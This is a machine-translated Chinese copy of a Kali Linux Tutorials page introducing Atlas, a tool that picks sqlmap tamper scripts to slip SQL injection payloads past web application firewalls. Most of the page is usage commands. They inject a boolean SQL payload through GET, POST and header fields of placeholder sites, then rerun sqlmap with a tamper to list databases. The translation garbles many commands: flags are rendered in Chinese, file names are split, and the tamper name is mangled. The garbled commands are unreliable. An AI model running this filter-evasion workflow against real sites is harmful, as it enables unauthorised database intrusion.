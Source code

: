 # 图集:快速 SQLMap 篡改提示 1.0 版

> 原文：<https://kalilinuxtutorials.com/atlas-2/>

[![Atlas : Quick SQLMap Tamper Suggester v1.0](img/a1188c2b7cb9feff7ed346703bd38fda.png "Atlas : Quick SQLMap Tamper Suggester v1.0")](https://1.bp.blogspot.com/-PdBDRHSr9ZU/XvOrNSYxOFI/AAAAAAAAGtM/w0zHCqCjB8sjjZ7As-LvBj_ml5Hb_ticgCLcBGAsYHQ/s1600/Atlas%25281%2529.png)

Atlas 是一个开源工具，可以建议 sqlmap 篡改以绕过 WAF/IDS/IPS，该工具基于返回的状态代码。

**截图**

![](img/b0f62f2d3c42916b22b60015d22f8009.png)

**安装**

**git 克隆 https://github . com/m4ll 0k/atlas . git atlas
$ CD atlas
$ python atlas . py # python 3+**

**用途**

**$ python atlas . py–URL http://site.com/index.php?id=Price_ASC–有效载荷="-1234 和 4321 = 4321–AAAA”-random-agent-v**

注入点(带 **%%inject%%** ):

*   **获取:**

**$ python atlas . py–URL http://site.com/index/id/%%10%%–有效载荷="-1234 和 4321 = 4321–AAAA”-random-agent-v**

*   **帖子:**

**$ python atlas . py–URL http://site.com/index/id/-m POST-D ' test = % % 10% % '–payload = "-1234 和 4321 = 4321–AAAA”-random-agent-v**

*   **标题:**

**$ python atlas . py–URL http://site.com/index/id/-H '用户代理:Mozilla/5.0% % inject % % '-H ' X-header:test '–有效负载="-1234 和 4321 = 4321–AAAA”-random-Agent-v**

*   **篡改串联:**

**$ python atlas . py–URL http://site.com/index/id/%%10%%–有效载荷="-1234 和 4321 = 4321–AAAA”-concat " equalto like，html encode”-random-agent-v**

*   **获取篡改列表:**

**python atlas . py-g**

**也可阅读-[Vault:秘密管理工具，加密即服务&特权访问管理](https://kalilinuxtutorials.com/vault/)**

**例子**

*   **运行 SQLMap:**

**$ python sqlmap . py-u 'http://site.com/index.php？id = Price _ ASC '–DBS–random-agent-v3**

![](img/b05f85d835871b409c36d79ed1bfa1cc.png)

Price_ASC ')和 8716=4837 和(' yajr'='yajr 被 WAF/IDS/IPS 屏蔽，现在尝试用 Atlas:

**$ python atlas . py–URL 'http://site.com/index.php？id = Price _ ASC '–payload = ' ')和 8716=4837 和(' yajr ' = ' yajr '–random-agent-v**

![](img/50465cc375c533c74c752ca0d94ae76c.png)

此时:

**$ python sqlmap . py-u 'http://site.com/index.php？id = Price _ ASC '–DBS–random-agent-v3–tamper = versified**

[**Download**](https://github.com/m4ll0k/Atlas)